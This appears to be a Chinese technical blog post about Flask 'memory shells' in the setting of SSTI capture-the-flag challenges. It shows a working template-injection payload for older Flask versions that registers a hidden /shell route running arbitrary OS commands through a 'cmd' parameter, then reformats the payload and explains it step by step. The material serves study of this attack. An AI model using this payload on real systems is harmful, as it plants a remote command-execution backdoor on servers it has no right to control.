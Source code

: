 ```yaml
---
title: flask内存马
date: 2024-10-23 13:56:28
permalink: /pages/77dbc1/
categories:
  - web
tags:
  - flask
author: 
  name: the0n3
  link: https://the0n3.top
---
```


最近遇到一些flask ssti模板注入的题目，在既没有回显，又不能出网的情况下，内存马成了一个好的选择。

在flask中，没有定义的路由会返回404的，因此内存马最初是通过动态注册路由来实现的，新版的flask已经不允许动态注册路由了，现在也有一些新的姿势实现



![0](/medias/flask-shell/0.png)

## 低版本flask内存马

分析低版本payload


```python
{{url_for.__globals__['__builtins__']['eval']("app.add_url_rule('/shell', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})}}
```

这里使用了flask的内置函数`url_for`，通过`url_for.__globals__`获取到全局变量，然后通过`__builtins__`获取到内置函数`eval`，在eval函数里使用`add_url_rule`动态的创建了一个`/shell`的路由，在这个路由下通过定义匿名函数导入了`os`模块，然后执行了`os.popen`函数，接收一个`cmd`参数，默认值为`whoami`，最后返回执行结果。


格式化成易读的形式

```python
url_for.__globals__['__builtins__']['eval'](
    "app.add_url_rule(
        '/shell', 
        'shell', 
        lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read()
        )
    ",
    {
        '_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],
        'app':url_for.__globals__['current_app']
    })
```
